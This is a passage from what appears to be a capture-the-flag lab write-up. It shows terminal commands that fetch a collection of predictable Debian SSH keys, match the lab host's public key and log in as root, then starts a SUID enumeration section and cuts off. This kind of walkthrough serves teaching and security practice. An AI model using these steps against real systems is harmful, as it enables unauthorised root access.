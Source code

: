     
    
    root@kali:/opt# git clone https://github.com/g0tmi1k/debian-ssh
    Cloning into 'debian-ssh'...
    remote: Enumerating objects: 35, done.
    remote: Total 35 (delta 0), reused 0 (delta 0), pack-reused 35
    Unpacking objects: 100% (35/35), 439.59 MiB | 6.72 MiB/s, done.
    root@kali:/opt# cd debian-ssh/
    root@kali:/opt/debian-ssh# ls
    common_keys  our_tools  README.md  uncommon_keys
    root@kali:/opt/debian-ssh# cd common_keys/
    root@kali:/opt/debian-ssh/common_keys# ls
    debian_ssh_dsa_1024_x86.tar.bz2  debian_ssh_rsa_2048_x86.tar.bz2
    root@kali:/opt/debian-ssh/common_keys# tar jxf debian_ssh_rsa_2048_x86.tar.bz2
    

Now I’ll use `grep` with `-lr` for recurrsive to just display the filename
with the public key, and it finds it:

    
    
    root@kali:/opt/debian-ssh/common_keys/rsa/2048# grep -lr AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== *.pub
    57c3115d77c56390332dc5c49978627a-5429.pub
    

I can use the matching private key to SSH to the box as root:

    
    
    root@kali:/opt/debian-ssh/common_keys/rsa/2048# ssh -i 57c3115d77c56390332dc5c49978627a-5429 root@10.10.10.3
    Last login: Tue Apr  7 10:33:18 2020 from :0.0
    Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    You have new mail.
    id
    root@lame:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

### SUID nmap

#### Enumeration

I can look for SUID files with the following `find` command (LinEnum or
linPEAS would also find them):
